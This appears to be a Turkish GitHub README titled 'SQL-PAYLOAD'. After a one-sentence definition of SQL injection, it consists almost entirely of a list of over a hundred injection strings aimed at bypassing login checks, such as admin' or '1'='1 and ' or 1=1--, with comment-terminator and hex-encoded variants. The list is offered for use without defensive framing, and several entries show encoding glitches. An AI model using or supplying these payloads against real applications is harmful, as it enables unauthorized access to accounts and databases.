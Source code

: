 # SQL-PAYLOAD
----------------------------------------------------------------------------------------------------------------------------------
# SQL PAYLOAD NEDİR NERELERDE KULLANILIR ?
SQL Injection, saldırganın, bir uygulamanın kötü amaçlı SQL enjeksiyon yüklerini enjekte ederek veritabanına yaptığı sorgulara müdahale etmesine izin vererek, saldırganların, görememeleri gereken verileri görüntülemesine olanak tanıyan bir web güvenlik açığını temsil eder.
-
# PAYLOADLAR
______________________________________________________________________________________________________________________
+ admin"or 1=1 or ""="
+ admin") or ("1"="1"--
+ ''Or'='Or''
+ anything' OR 'x'='x
+ 1'or'1'='1
+ ' or 1=1 or ''='
+ or 1=1 or "=
+ ' OR ''='
+ '' OR ''=''
+ 'OR''='
+ hey' or 1=1–
+ ''Or 1 = 1'
+ ' or 1=1-- 
+ or 1=1--
+ " or 1=1--
+ or 1=1--
+ 'or 'a'='a
+ or ""a""=""a"
+ ') or ('a'='a
+ %23 1
+ hi") or ("a"="a
+ 'hi' or 'x'='x';
+ 2 or 1=1 %23%0A1
+ %23%0A1
+ desc %23
+ 23%
+ x' or 1=1 or 'x'='y
+ \x27\x4F\x52 SELECT *
+ \x27\x6F\x72 SELECT *
+ 'or select *
+ admin'--
+ )) or ((x"))=(("x
+  or "+
+ admin"or 1=1 or ""="
+ admin") or ("1"="1"--
+ ' or "='
+ '=' 'or'
+ 'or'1'='1 (güncel)
+ or 1=1
+ or 1=1–
+ or 1=1#
+ or 1=1/*
+ admin' —
+ admin' #
+ admin'/*
+ admin' or '1'='1
+ admin' or '1'='1'–
+ admin' or '1'='1'#
+ admin' or '1'='1'/*
+ admin'or 1=1 or "='
+ admin' or 1=1
+ admin' or 1=1–
+ admin' or 1=1#
+ admin' or 1=1/*
+ admin') or ('1'='1
+ admin') or ('1'='1'–
+ admin') or ('1'='1'#
+ admin') or ('1'='1'/*
+ admin') or '1'='1
+ admin') or '1'='1'–
+ admin') or '1'='1'#
+ admin') or '1'='1'/*
+ admin" —
+ admin" #
+ admin"/*
+ admin" or "1"="1
+ admin" or "1"="1¨–
+ admin" or "1"="1¨#
+ admin" or "1"="1¨/*
+ admin"or 1=1 or ""="
+ admin" or 1=1
+ admin" or 1=1–
+ admin" or 1=1#
+ admin" or 1=1/*
+ admin") or ("1¨="1
+ admin") or ("1¨="1¨–
+ admin") or ("1¨="1¨#
+ admin") or ("1¨="1¨/*
+ admin") or "1"="1
+ admin") or "1"="1¨–
+ admin") or "1"="1¨#
+ admin") or "1"="1¨/*
+ ' or true–
+ ') or true–
+ ') or (")=('
+ ') or 1–
+ ') or ('x')=('
+ " or true–
+ or """"="""
+ " or 1–
+ or ""x""="""
+ ") or true–
+ ) or ("""")=("""
+ ") or 1–
+ ) or (""x"")=("""
+ ')) or true–
+ ')) or (("))=(('
+ ')) or 1–
+ ')) or (('x'))=(('
+ '-'
+ '+'
+ '&amp;'
+ '^'
+ '*'
+ ' or "-'
+ ' or "+'
+ ' or "&amp;'
+ ' or "^'
+ ' or "*'
+ -
+ +
+ &amp;
+ ^
+ *
+ or "-
+ or "+
+ or "&amp;
+ or "^
+ or "*
+ or true–
+ " or true–
+ ' or true–
+ ) or true–"
+ ') or true–
+ ' or 'x'='x
+ ') or ('x')=('x
+ ')) or (('x'))=(('x
+  or x"="x
+ ) or (x")=("x
+ )) or ((x"))=(("
______________________________________________________________________________________________________

ŞİKAYET VE ÖNERİLERİNİZ İÇİN :
* E-POSTA : tegmen.py@gmail.com
